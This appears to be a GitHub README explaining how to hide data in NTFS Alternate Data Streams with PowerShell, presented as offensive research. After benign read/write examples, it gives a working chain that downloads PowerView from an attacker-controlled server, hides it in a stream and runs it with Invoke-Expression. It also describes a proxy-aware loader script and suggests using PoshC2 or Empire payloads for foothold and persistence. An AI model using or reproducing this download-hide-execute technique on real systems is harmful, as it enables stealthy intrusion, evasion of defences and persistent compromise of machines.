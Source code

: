 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whilst reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The parameter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now download a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I put together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload to download and embed into the freshly created file. Also in this example the dowload process is able to detect webproxy settings and use the current users credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```
Further uses could be to download a payload, say a standard PoshC2 or Empire base64 encoded payload and hide it in a file and use this as the intial foothold and a persistence method.